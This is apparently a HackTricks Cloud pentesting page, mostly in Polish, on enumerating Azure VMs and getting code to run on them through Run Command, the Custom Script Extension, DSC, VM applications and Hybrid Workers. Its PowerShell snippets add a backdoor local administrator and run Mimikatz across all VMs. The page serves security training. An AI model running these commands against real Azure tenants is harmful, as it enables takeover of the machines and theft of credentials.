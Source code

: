 # Az - Maszyny Wirtualne i Sieć

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

## Podstawowe informacje

[Z dokumentacji:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Maszyny wirtualne Azure są jednym z kilku typów [zasobów obliczeniowych na żądanie i skalowalnych](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree), które oferuje Azure. Zazwyczaj wybierasz maszynę wirtualną, gdy potrzebujesz większej kontroli nad środowiskiem obliczeniowym niż oferują inne opcje. Ten artykuł dostarcza informacji o tym, co powinieneś wziąć pod uwagę przed utworzeniem maszyny wirtualnej, jak ją utworzyć i jak nią zarządzać.

## Informacje o sieci Azure

Sieci Azure zawierają **różne podmioty i sposoby ich konfiguracji.** Możesz znaleźć krótkie **opisy,** **przykłady** i **komendy enumeracji** różnych podmiotów sieciowych Azure w:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** oferuje bezpieczne, w pełni zarządzane rozwiązanie dostępu RDP (Remote Desktop Protocol) i SSH (Secure Shell) przez SSL za pośrednictwem portalu Azure. Jest zintegrowany w ramach sieci wirtualnej Azure, co umożliwia łączność RDP i SSH z VM-ami przy użyciu prywatnych adresów IP, unikając potrzeby używania publicznych adresów IP. To czyni go bezpieczniejszą, bardziej wygodną alternatywą dla tradycyjnych metod związanych z przypisywaniem publicznych adresów IP i konfiguracją reguł NSG dla dostępu do VM. Programiści i personel IT mogą bezpiecznie uzyskiwać dostęp do VM-ów z portalu Azure za pomocą swoich przeglądarek internetowych, co upraszcza proces dla środowisk deweloperskich i testowych.

Aby wylistować wszystkie hosty Azure Bastion w swojej subskrypcji, możesz użyć następującej komendy:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Enumeracja VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Uruchom polecenia w VM**

### **Logowanie AAD w VM**

Możliwe jest umożliwienie dostępu użytkownikom uwierzytelnionym za pomocą AzureAD. Na przykład próbując uzyskać dostęp do **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (ważne jest, aby **użyć adresu e-mail** z azurecorp używanego podczas próby logowania) możesz otrzymać błąd taki jak: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Po prostu **postępuj zgodnie z tymi instrukcjami**, przechodząc do [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) i podając kod, użyj adresu e-mail i hasła jako poświadczeń, a będziesz mógł połączyć się za pomocą SSH (jeśli ten użytkownik ma wystarczające uprawnienia: rola `Virtual Machine Administrator Login` lub `Virtual Machine User Login`).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Uruchomienie rozszerzenia niestandardowego skryptu**

Rozszerzenia maszyn wirtualnych (VM) w Azure to **małe aplikacje**, które zapewniają konfigurację po wdrożeniu i automatyzację **zadań** na **maszynach wirtualnych Azure**. Na przykład, jeśli maszyna wirtualna wymaga instalacji oprogramowania, ochrony antywirusowej lub możliwości uruchomienia skryptu wewnątrz niej, możesz użyć rozszerzenia VM.

Dlatego, jeśli masz dostęp do jego zapisu, możesz wykonać dowolny kod:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) to narzędzie PowerShell podobne do Ansible, używane do konfigurowania hosta za pomocą kodu. DSC integruje się z Azure, umożliwiając przesyłanie specyficznych plików konfiguracyjnych. Pliki te muszą przestrzegać ścisłej składni. Co ważne, rozszerzenie DSC w Azure może wykonywać polecenia z plików, które spełniają określone kryteria formatowania, nawet jeśli składnia nie jest poprawna według standardów DSC, jak pokazano na dostarczonym rysunku.

Wykonanie tych poleceń jest ułatwione przez funkcję [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) w Az PowerShell. Wymagania obejmują plik **.PS1** z zdefiniowaną funkcją, a plik musi być spakowany do pliku **.zip**. Mimo że składnia może nie być dokładna dla DSC, kod nadal zostanie wykonany. Jednak rozszerzenie oznaczy status wykonania jako "niepowodzenie", a żaden wynik z polecenia nie będzie widoczny z powodu nadpisania statusu komunikatem o błędzie.

### VM Application Definitions

Definicje aplikacji VM umożliwiają powtarzalne wdrażanie wersjonowanych aplikacji na maszynie wirtualnej Azure. Ten zasób wspiera wdrażanie i aktualizację aplikacji w różnych maszynach wirtualnych. Aby to skonfigurować, wymagane są różne kroki, obejmujące polecenia takie jak **`New-AzGalleryApplication`** i **`New-AzGalleryApplicationVersion`** w Az PowerShell.

Wykonanie aplikacji lub poleceń tą metodą wiąże się z **"VMAppExtension"**, która jest automatycznie instalowana, gdy aplikacja jest stosowana do maszyny wirtualnej. Rozszerzenie pobiera plik z określonego URI i nazywa go dokładnie tak samo jak aplikacja, bez rozszerzenia. Aby poprawnie wykonać plik, pole "ManageActions" w wywołaniu REST API musi być skonfigurowane do zmiany nazwy pliku na odpowiednie rozszerzenie. Ustawienie tej metody, po zakończeniu, będzie przypominać strukturę pokazaną na dostarczonym rysunku.

Jednak ta metoda wykonania jest stosunkowo wolna, zajmując około 3-4 minut na wykonanie aplikacji lub polecenia. Pliki związane z tym procesem są przechowywane w określonych katalogach (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` dla kopii aplikacji i `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` dla statusu wykonania).

Obie techniki oferują unikalne sposoby wykonywania poleceń i wdrażania aplikacji w środowiskach Azure, każda z własnym zestawem wymagań, kroków i rozważań.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) to funkcja w Azure, która pozwala na wykonywanie Runbooków, skonfigurowanych w koncie automatyzacji, na maszynie wirtualnej Azure (VM), która jest częścią wyznaczonej HWG. To wykonanie jest ułatwione przez rozszerzenie zainstalowane na VM, które wdraża kod Runbooka na VM. Istotnym aspektem tego procesu jest to, że rzeczywiste poświadczenia nie mają znaczenia w wykonaniu, ponieważ kod działa z podwyższonymi uprawnieniami, konkretnie jako **SYSTEM** lub root, jak pokazano na dostarczonym rysunku.

Kluczowym szczegółem dla tych, którzy korzystają z maszyn wirtualnych Windows 10, jest konieczność określenia wersji PowerShell dla Runbooka. Powinna być ustawiona na uruchamianie jako PowerShell Wersja 5.1 zamiast 7.1. Wymóg ten wynika z faktu, że PowerShell 7.1 nie jest domyślnie zainstalowany na tych VM, co prowadzi do niepowodzenia w wykonaniu skryptu, jeśli określona jest wersja 7.1.

Ta funkcja Azure oferuje solidną metodę automatyzacji i zarządzania zadaniami w środowiskach hybrydowych, umożliwiając centralne zarządzanie i wykonywanie zadań na maszynach wirtualnych Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
